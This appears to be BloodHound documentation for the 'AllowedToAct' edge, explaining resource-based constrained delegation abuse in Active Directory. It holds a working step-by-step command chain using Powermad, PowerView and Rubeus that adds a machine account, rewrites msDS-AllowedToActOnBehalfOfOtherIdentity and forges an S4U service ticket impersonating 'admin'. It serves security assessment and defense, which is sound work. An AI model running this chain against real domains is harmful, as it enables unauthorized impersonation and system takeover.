---
title: AllowedToAct
---
<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


This edge allows an attacker to abuse resource-based constrained delegation to compromise the target. This property is a binary DACL that controls what security principals can pretend to be any domain user to the particular computer object.

An attacker can execute a modified S4U2self/S4U2proxy abuse chain to impersonate any domain user to the target computer system and receive a valid service ticket “as” this user.

One caveat is that impersonated users can not be in the “Protected Users” security group or otherwise have delegation privileges revoked. Another caveat is that the principal added to the msDS-AllowedToActOnBehalfOfOtherIdentity DACL _must_ have a service principal name (SPN) set in order to successfully abuse the S4U2self/S4U2proxy process. If an attacker does not currently control an account with a SPN set, an attacker can abuse the default domain MachineAccountQuota settings to add a computer account that the attacker controls via the Powermad project.

**Abuse Info**

Abusing this primitive is currently possible through the Rubeus project.

First, if an attacker does not control an account with an SPN set, Kevin Robertson’s Powermad project can be used to add a new attacker-controlled computer account:
```bash
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```

PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

```bash
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```
We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:

```bash
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we’re taking over, again using PowerView in this case:

```bash
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:
```bash
Rubeus.exe hash /password:Summer2018!
```
And finally we can use Rubeus’ _s4u_ module to get a service ticket for the service name (sname) we want to “pretend” to be “admin” for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```bash
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```
See a video walk through of how to execute this attack here:

<iframe id="youtube-453" frameborder="0" allowfullscreen="" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" title="Player for BloodHound 2.1's New Computer Takeover Attack" width="100%" height="420" src="https://www.youtube.com/embed/RUbADHcBLKg?autoplay=0&amp;controls=0&amp;disablekb=1&amp;playsinline=1&amp;cc_load_policy=0&amp;cc_lang_pref=auto&amp" data-gtm-yt-inspected-6="true"></iframe>

## Opsec Considerations

To execute this attack, the Rubeus C# assembly needs to be executed on some system with the ability to send/receive traffic in the domain.

## References

* [https://eladshamir.com/2019/01/28/Wagging-the-Dog.html](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)
* [https://github.com/GhostPack/Rubeus#s4u](https://github.com/GhostPack/Rubeus#s4u)
* [https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff)
* [https://blog.harmj0y.net/redteaming/another-word-on-delegation/](https://blog.harmj0y.net/redteaming/another-word-on-delegation/)
* [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
* [https://github.com/Kevin-Robertson/Powermad#new-machineaccount](https://github.com/Kevin-Robertson/Powermad#new-machineaccount)

